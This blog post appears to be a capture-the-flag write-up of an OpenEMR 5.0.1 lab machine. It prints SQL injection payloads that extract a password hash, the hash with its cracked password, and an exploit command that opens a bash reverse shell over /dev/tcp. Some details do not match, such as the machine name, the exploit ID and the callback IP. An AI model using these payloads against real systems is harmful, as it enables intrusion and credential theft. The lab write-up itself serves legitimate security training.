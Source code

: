 ```yaml
---
layout: single
title: Apex - Proving grounds Practice
date: 2023-06-21
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - web
  - sqli
  - openemr
  - passwordcracking
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- OpenEMR 5.0.1 it's vulnerable to a sql injection that allows us to get a password hash.
- Cracking this hash we can obtain the password and gain access to the web app.
- OpenEMR it's also vulnerable to RCE authenticated. Using the obtained password we are able to exploit it.
- Once inside the victim's machine we are able to reuse the same password to obtain root access.

### Detailed steps
------------------

### Enumeration

I started enumerating the open ports with:
```
nmap -Pn -p- 192.168.164.145
```
![nmap1](\assets\images\pg-practice-apex\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A 192.168.164.145 -p 80,445,3306 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-apex\2.JPG)

As we can see in the last picture, there is a web server, a mysql server and a smb server.
By accessing the website I was able to see a sanitary webpage. By clicking on `Scheduler` I could access to a login page.

![webpage1](\assets\images\pg-practice-apex\5.JPG)

This login page shows that we are in front of a `OpenEMR`
![webpage2](\assets\images\pg-practice-apex\6.JPG)

In order to find out the OpenEMR version, I found a common OpenEMR directory named 'sql' which was present in this server.
This directory stores sql files which are generated in the updates. Knowing this, we can deduce OpenEMR version (`5.0.1` in this case).

![webpage3](\assets\images\pg-practice-apex\80.JPG)

Also this directory contains some more interesting files as database.sql. This file shows the structure of the OpenEMR database.

![webpage4](\assets\images\pg-practice-apex\89.JPG)

### Explotation

This OpenEMR version is vulnerable to some `sql injections` we can find in the following report:
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

This image shows the vulnerable files:
![sqli](\assets\images\pg-practice-apex\81.JPG)

Trying to search for these files I was able to acces to "add_edit_event_user.php" so I worked with this file.
![sqli2](\assets\images\pg-practice-apex\83.JPG)

To make this job easier, I looked in the database.sql file mentioned above. I could find a table named 'user_secure' which contains usernames and passwords.
![sqli2](\assets\images\pg-practice-apex\91_2.JPG)

After some attemps, I found a valid query using "substring" which can extract half password hash:
![sqli3](\assets\images\pg-practice-apex\90.JPG)

Modifying this query I was able to get the other half (just replacing 1,32 by 32,60):
![sqli4](\assets\images\pg-practice-apex\92.JPG)
Querys:
```
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,1,32)FROM users_secure LIMIT 0,1)))
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,32,64)FROM users_secure LIMIT 0,1)))
```

Hash:
```
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC
```

I used this page to analyse the hash --> https://hashes.com/es/tools/hash_identifier
As we can see in the picture, we are in front of a `bcrypt $2*$, Blowfish (Unix)`
![hash1](\assets\images\pg-practice-apex\93.JPG)

Knowing the type of hash I cracked it with hashcat:
![hash2](\assets\images\pg-practice-apex\95.JPG)

Now, having this password I was able to log in successfully to the web portal as admin user:
![access](\assets\images\pg-practice-apex\96.JPG)

![access2](\assets\images\pg-practice-apex\97.JPG)


`OpenEMR 5.0.1` is also vulnerable to a remote code execution (authenticated). This means that at this point I could exploit it.

In order to gain access I downloaded a python exploit from: https://www.exploit-db.com/exploits/48515
Opening a netcat listener and executing this exploit with the following paramaters, I was able to catch the shell.
```
python2 45161.py http://192.168.164.145/openemr -u admin -p thedoctor -c "bash -c 'bash -i >& /dev/tcp/192.168.164.145/5555 0>&1'"
```
![shell](\assets\images\pg-practice-apex\101.JPG)

![shell2](\assets\images\pg-practice-apex\102.JPG)

Being www-data user I was able to find the user flag:
![flag1](\assets\images\pg-practice-apex\103.JPG)


### Privilege escalation

In order to elevate privileges I have been looking for a way for a while until I realised that I could use the previously obtained password again.
Just typing su root and using "thedoctor" as password I was able to log in as root and find the root flag.
![root](\assets\images\pg-practice-apex\227.JPG)

![flag2](\assets\images\pg-practice-apex\228.JPG)
